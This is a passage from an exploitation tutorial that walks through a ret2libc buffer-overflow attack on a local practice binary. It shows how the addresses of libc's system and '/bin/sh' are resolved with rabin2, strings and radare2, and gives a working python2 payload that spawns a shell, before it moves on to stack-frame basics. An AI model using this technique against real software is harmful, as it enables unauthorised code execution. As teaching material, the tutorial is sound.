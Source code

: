 So, our payload would look something like this (the dummy address is explained a bit below):

```
[0x2c padding] + [system address] + [dummy address] + [/bin/sh address]
```

We can obtain the function RVA with the following:

```shell
$ rabin2 -s /usr/lib32/libc-2.28.so | grep -w system
1525  0x0003e9e0 0x0003e9e0 WEAK   FUNC   55        system
```

And the string offset (like an RVA) inside the library thanks to:

```shell
$ strings -t x /usr/lib32/libc-2.28.so | grep /bin/sh
17eaaa /bin/sh
```

As we already know that `libc` will be loaded in `0xf7dd4000` address, we can add those RVA to the base address to obtain the following payload:

```
[0x2c padding] + [0xf7e129e0] + [dummy address] + [0xf7f52aaa]
```

We can check that we effectively calculate the absolute address right with radare2:

```shell
[0xf7f3b000]> dmi libc system
257   0x0012a2c0 0xf7efe2c0 GLOBAL FUNC   102       svcerr_systemerr
658   0x0003e9e0 0xf7e129e0 GLOBAL FUNC   55        __libc_system
1525  0x0003e9e0 0xf7e129e0 WEAK   FUNC   55        system
[0xf7f3b000]> / /bin/sh
Searching 7 bytes in [0xf7f3b000-0xf7fab000]
hits: 1
0xf7f52aaa hit5_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

If we try our exploit, we can effectively obtain an interactive shell (the cat command is to maintain program stdin open and feed non_executable_stack with our commands):

```shell
$ (python2 -c 'print("A"*0x2c + "\xe0\x29\xe1\xf7" + "A"*4 + "\xaa\x2a\xf5\xf7")' && cat) | ./non_executable_stack    
Enter the secret password:
Incorrect secret password!
whoami
urzu
```

### Stack frame

So, why do we need a dummy address between our function call and the parameter? This is due to how stack frames are constructed during function calls. We’ll see it with a simple C example:

```c
#include <stdio.h>

int main(int argc, char** argv) {
    puts("Hello World!");
    return 0; 
}
```
